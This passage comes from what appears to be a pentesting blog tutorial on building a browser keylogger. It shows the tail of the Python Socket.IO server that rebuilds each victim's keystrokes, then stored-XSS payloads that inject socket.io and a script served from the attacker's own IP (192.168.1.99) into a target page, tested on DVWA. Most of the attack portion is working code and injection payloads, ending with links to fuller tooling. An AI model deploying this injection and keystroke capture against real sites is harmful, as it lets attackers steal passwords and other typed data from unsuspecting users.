     else:
        
        if shift_pressed:

            if keystroke in tables.shift:
                keystroke = tables.shift[keystroke]
            elif keystroke.isalpha():
                keystroke = keystroke.upper()

        if selection_start != selection_end:
            del contents[selection_start:selection_end]

        contents.insert(selection_start, keystroke)

    print '<input id="%s" type="%s" class="%s" name="%s" /> textval: %s' %\
            (message['id'],
            message['type'],
            message['class'],
            message['name'],
            ''.join(contents))
    
if __name__ == '__main__':

    socketio.run(app, host='0.0.0.0', port=LPORT)

{% endhighlight %}

# Running the Keylogger

The first step to using our keylogger is to inject the WebSockets source code into the target page. For testing purposes, we can use the stored XSS page on DVWA that we used in Part I of this series.

	<script type="text/javascript" src="http://cdnjs.cloudflare.com/ajax/libs/socket.io/1.3.5/socket.io.min.js"></script>

We then inject a script tag linking to our keylogger's frotnend code. Just substitute 192.168.1.99 with your IP address, and 80 with the value of LPORT in your run.py file.

	<script type="text/javascript" src="http://192.168.1.99:80/"></script>

In your __keylogger__ directory, run the following command:

	python run.py

Finally, refresh the page you injected the script tags into. Try typing into one of the input fields. You should get something similar to the output shown below in your terminal.

![logging keystrokes]({{ site.baseurl }}images/wsk/logging-ks.png)

We can now see what and where the user is typing. 

To check out the source code for this tutorial, head to [github.com/s0lst1c3/keylogger](http://github.com/s0lst1c3/keylogger). For a more robust example designed to be used in an actual pentesting scenario, check out my project [keyboardsnitch](http://github.com/s0lst1c3/keyboardsnitch).


